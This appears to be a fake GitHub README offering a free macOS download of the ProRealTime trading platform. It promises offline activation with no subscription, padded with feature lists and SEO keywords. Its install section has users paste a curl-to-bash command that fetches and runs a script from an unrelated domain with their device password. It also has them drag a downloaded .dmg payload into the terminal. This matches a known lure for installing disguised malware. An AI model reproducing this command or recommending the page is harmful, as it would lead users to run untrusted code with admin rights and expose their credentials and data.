<p align="center">
  <img src="https://www.newtrading.io/wp-content/uploads/2024/04/ProRealTime-Logo-300x169.webp" width="300px" alt="ProRealTime Logo"/>
</p>

<h1 align="center">
  🚀 ProRealTime – Free Download for MacOS
</h1>

<p align="center">
  <a href="https://prorealtime-for-macos-free-download.github.io/.github/">
    <img src="https://img.shields.io/badge/%EF%A3%BF%20Download%20for%20MacOS-green?style=for-the-badge&logo=apple&logoColor=white" width="320px" height="45px" alt="Download for macOS"/>
  </a>
</p>

---

## 🖼 Preview

<p align="center">
  <img src="https://assets.prorealtime.com/images/home/mobile/features/features-screenshot-3.28f4ab15.webp" width="430px" alt="ProRealTime Icon"/>
</p>

<p align="center">
  <img src="https://assets.prorealtime.com/images/home/mobile/prorealtime-complete.17d531c4.webp" width="430px" alt="ProRealTime for Mac Screenshot"/>
</p>

---

## 💡 About ProRealTime

**ProRealTime for Mac** is a powerful trading and technical analysis platform tailored for professionals, active traders, and financial analysts. It combines institutional-grade charting, advanced algorithmic trading capabilities, and a native macOS interface. With offline activation support and seamless performance on Apple Silicon, ProRealTime empowers users with real-time data, backtesting, and strategy automation — all without requiring any coding experience.

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🖥 System Requirements

- **macOS:** 13 Ventura, 14 Sonoma, 15 Sequoia  
- **Processor:** Apple Silicon (M1, M2, M3, M4)  
- **Memory:** Minimum 4 GB RAM  

---

## 🚀 Key Features

- 📈 Advanced technical analysis with 100+ indicators  
- 🤖 ProRealCode scripting and automated trading (no coding required)  
- 🧪 Strategy backtesting with historical data  
- 🔁 Multi-asset support: stocks, forex, futures, indices, crypto  
- 🍎 Fully native macOS experience with Apple Silicon optimization  
- 🌙 Dark Mode and customizable layout themes  
- 🔌 Works offline — no subscription or login needed  

---

## 🧩 Why Choose ProRealTime?

ProRealTime is trusted by institutional and independent traders across the globe. It offers one of the most complete environments for market analysis and trading automation — without the complexity. Whether you're a discretionary trader or building rule-based systems, ProRealTime for Mac provides speed, accuracy, and full control in a clean, macOS-native interface.

---

## 🎯 What You Unlock

- ✅ Full access to premium charting and ProScreener tools  
- 🚀 Fast execution and stable performance offline  
- 🔒 No login or subscription required after activation  
- 🧠 Scripting and automation tools with or without coding  
- 🎛 Modular layouts for advanced multi-monitor setups  

---

## 🔍 SEO Keywords

prorealtime, prorealtime mac, prorealtime for mac download, prorealtime offline activation, prorealtime trading mac, prorealtime apple silicon, technical analysis software mac, prorealtime algo trading, prorealtime full version macos, no code trading platform mac, prorealtime dark mode, prorealtime mac native

---
